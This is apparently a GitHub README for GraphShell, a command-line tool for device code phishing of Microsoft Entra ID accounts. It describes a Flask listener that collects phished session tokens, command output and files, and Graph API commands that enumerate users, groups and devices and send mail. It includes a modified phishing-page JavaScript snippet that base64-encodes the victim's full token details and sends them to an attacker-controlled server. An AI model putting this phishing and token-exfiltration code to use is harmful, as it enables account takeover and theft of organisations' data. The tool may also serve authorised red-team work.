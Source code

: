 ## GraphShell: A Command-Line Tool for Microsoft Graph API Exploration
### Overview
GraphShell is a command-line not so fancy tool designed for interacting with Microsoft Graph API. Currently it facilitates many operations such as enumerating users, groups, devices, and sending emails from Entra ID ( I am lying, for some reason the mail doesn't get delivered, maybe detected as spam? ). I devloped it as I was learning and exploring Device Code Phishing and Microsoft Graph API. If you are looking for more functionality, I would recommend exploring [AADInternals](https://github.com/Gerenios/AADInternals) and [TokenTactics](https://github.com/rvrsh3ll/TokenTactics). I am sure there would be some more cool projects but I haven't explored them yet :D

### Update (05/27/2024)
It now allows interacting with multiple sessions, starting a Flask server to receive sessions (helpful during dynamic device code phishing), and performing various tasks with authenticated sessions (YESSSS! more graph api calls).
![](https://raw.githubusercontent.com/dazzyddos/GraphShell/main/images/image.png)

### Features <br>
Features
- Generate device codes for authentication.
- Interact with multiple sessions.
- Start a Flask web server to retrieve sessions remotely (Dynamic Device Code Phishing).
- List and interact with sessions.
- Execute various Microsoft Graph API commands.
- Save and load sessions to/from an SQLite database.
- Check session validity and status.
- Support for SSL for the web server.

### Web Server Endpoints
- GET /start_session: Start a new session.
- POST /start_session: Start a new session with session details.
- GET /poll_session/<session_id>: Poll for session authorization status.
- POST /receive_output: Receive command output.
- POST /receive_file: Receive a file.
- POST /heartbeat: Send a heartbeat.

#### Installation and Usage
Clone the repository:
```bash
git clone https://github.com/dazzyddos/GraphShell.git
cd GraphShell
```

Install dependencies:
```bash
pip install -r requirements.txt
```

Run the tool:
```bash
python main.py
```

Generate Device Code:
```bash
>> generate_device_code
```

Authenticate:
```
The device code needs to be entered at the provided URL i.e., https://microsoft.com/devicelogin
```

Other way to use is to start the flask server which will listen for token details:
```bash
>> start_server 1337 SSL  # can be run without SSL too
```

#### Video Demo 1 (Normal Generate Token)

https://github.com/dazzyddos/GraphShell/raw/main/video/generate_device_code.mp4

### Dynamic Device Code Phishing
I don't need to explain what and how the device code phishing works. I would recommend reading this great [Blog Post](https://www.blackhillsinfosec.com/dynamic-device-code-phishing/) by [@rvrsh3ll](https://twitter.com/rvrsh3ll)
I am using the same [index.html](https://github.com/rvrsh3ll/Azure-App-Tools/blob/master/DynamicDeviceCodes/index.html) except with small modification below. By default he's only sending the device_code to his python tool but our tool requires the complete token details which needs to be sent after base64 encoding.
```javascript
function base64UrlEncode(str) {
        return btoa(str) // Standard Base64 encoder
            .replace(/\+/g, '-') // Convert '+' to '-'
            .replace(/\//g, '_') // Convert '/' to '_'
            .replace(/=+$/, ''); // Remove trailing '='
    }
    
// Convert the object to a JSON string
const jsonString = JSON.stringify(data)

// Base64 URL encode the JSON string
const base64EncodedData = base64UrlEncode(jsonString)
//console.log(base64EncodedData);

document.getElementById('code').innerHTML += data.message;

// Change this line to point to your listening webserver where the python code is running
$.get("https://<Server Name>:<port>/start_session?tok=" + base64EncodedData);
```

#### Video Demo 2 (Dynamic Device Code Phishing)

<iframe width="560" height="315" src="https://www.youtube.com/embed/6RKEAgkCnpE?si=kezWPKpQvM8JEiB4" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>





